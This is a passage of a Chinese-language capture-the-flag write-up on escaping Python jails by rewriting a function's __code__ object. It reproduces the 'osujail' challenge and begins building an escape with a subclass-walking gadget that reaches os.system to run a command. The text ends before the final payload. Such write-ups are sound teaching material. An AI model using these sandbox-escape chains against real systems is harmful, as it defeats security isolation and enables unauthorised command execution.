 既然code也是对象，我们是否可以对一个普通的函数修改其`__code__`的内容？答案显然是可以的，在code object和执行的函数主要相关的只有`co_code,co_nlocals,co_varnames,co_names,co_consts`,

只要我们将一个函数对象的`__code__`中的内容修改成这样，我们就可以获得一个相同功能的函数。那么该如何替换呢？

python中为`__code__`的修改提供了`replace`函数，能够返回一个修改过的code object，因此下面这道题就迎刃而解了：

## _04_osujail

```python
backup_eval = eval
backup_print = print
backup_input = input
backup_all = all
backup_ord = ord

def rescued_osu(input):
    return input.count('o') == 1 and input.count('s') == 1 and input.count('u') == 1

def caught_by_guards(input):
    return '[' in input \
        or ']' in input \
        or '{' in input\
        or '}' in input \
        or not backup_all(0 <= backup_ord(c) <= 255 for c in input)

globals()['__builtins__'].__dict__.clear()



input = backup_input()
if caught_by_guards(input) or not rescued_osu(input):
    backup_print('[You failed to break the jail]')
else:
    backup_print(backup_eval(input,{},{}))
```

这道题出自osuctf原题，可以看到使用了nobuiltins环境，限制ascii范围，禁止中括号大括号，限制osu出现次数的审查。因此我们尝试通过对`__code__`的重写构造一个具有和_03相同功能的函数：

首先查看原函数的字典情况：

```python
def f():
    return ().__class__.__mro__[1].__subclasses__()[142].__init__.__globals__['system']('cmd')


print(f"code:{f.__code__.co_code}")
print(f"nlocals:{f.__code__.co_nlocals}")
print(f"varnames:{f.__code__.co_varnames}")
print(f"names:{f.__code__.co_names}")
print(f"consts:{f.__code__.co_consts}")
```

